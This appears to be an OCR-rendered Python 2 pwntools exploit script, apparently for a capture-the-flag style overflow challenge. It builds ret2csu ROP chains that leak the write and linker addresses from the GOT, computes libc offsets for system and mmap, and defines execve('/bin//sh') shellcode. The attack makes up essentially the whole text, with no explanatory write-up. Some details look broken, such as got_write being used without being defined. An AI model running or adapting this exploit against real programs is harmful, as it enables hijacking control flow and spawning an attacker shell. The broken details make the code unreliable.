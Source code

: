 ```
got_read = elf.got['read']
print "got_read: " + hex(got_read)
plt_read = elf.symbols['read']
print "plt_read: " + hex(plt_read)
linker_point = 0x600ff8
print "linker_point: " + hex(linker_point)
got_pop_rax_ret = 0x0000000000023970
print "got_pop_rax_ret: " + hex(got_pop_rax_ret)    

main = 0x400564 

off_system_addr = libc.symbols['write'] - libc.symbols['system']
print "off_system_addr: " + hex(off_system_addr)
off_mmap_addr = libc.symbols['write'] - libc.symbols['mmap']
print "off_mmap_addr: " + hex(off_mmap_addr)
off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
print "off_pop_rax_ret: " + hex(off_pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload1#############\n"
p.send(payload1)
sleep(1)    

write_addr = u64(p.recv(8))
print "write_addr: " + hex(write_addr)
mmap_addr = write_addr - off_mmap_addr
print "mmap_addr: " + hex(mmap_addr)
pop_rax_ret = write_addr - off_pop_rax_ret
print "pop_rax_ret: " + hex(pop_rax_ret)    

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=linker_point, rdx=4)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # movrdx, r15; movrsi, r14; movedi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)   

p.recvuntil("Hello, World\n")   

print "\n#############sending payload2#############\n"
p.send(payload2)
sleep(1)    

linker_addr = u64(p.recv(8))
print "linker_addr + 0x35: " + hex(linker_addr + 0x35)  

p.recvuntil("Hello, World\n")   

shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
              "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
              "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )  
```